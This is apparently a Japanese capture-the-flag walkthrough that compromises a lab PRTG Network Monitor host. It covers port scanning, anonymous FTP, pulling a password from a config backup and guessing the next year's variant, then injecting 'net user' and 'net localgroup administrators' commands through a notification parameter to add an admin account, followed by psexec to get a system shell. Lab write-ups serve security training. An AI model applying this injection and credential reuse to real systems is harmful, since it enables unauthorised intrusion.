# 1. Port scan
$ip=10.10.10.152

sudo nmap -sC -sV $ip



FTPとアクセス

user.txtをダウンロード



 `cd Paessler`

`cd ./"PRTG Network Monitor"`

nmapで検出したサービス名と同じディレクトリを発見

バックアップデータをダウンロード



バックアップを確認した結果

ファイル内のkcredentialを表示した結果ユーザ名とパスワードを発見



記載してるユーザ情報でログインを試したが失敗



パスワードは PrTg@dmin2018
ではなくPrTg@dmin2019と推測

ログイン成功



setup→

Account Settings →

Notifications→

Add new Notification



 program file Demo exe notification – outfile.ps1 

parameterにtest.txt;net user pentestop P3nT3st! /add;net localgroup administrators pentestop /add

username prtgadmin

password PrTg@dmin2018 wonyuuryoku

作成したNotificationを実行



pentestopユーザを作成

`smbmap -H 10.10.10.152 -u pentestop -p 'P3nT3st!'` 



 `python3 psexec.py 'pentestop:P3nT3st!@10.10.10.152'`



rootを取得


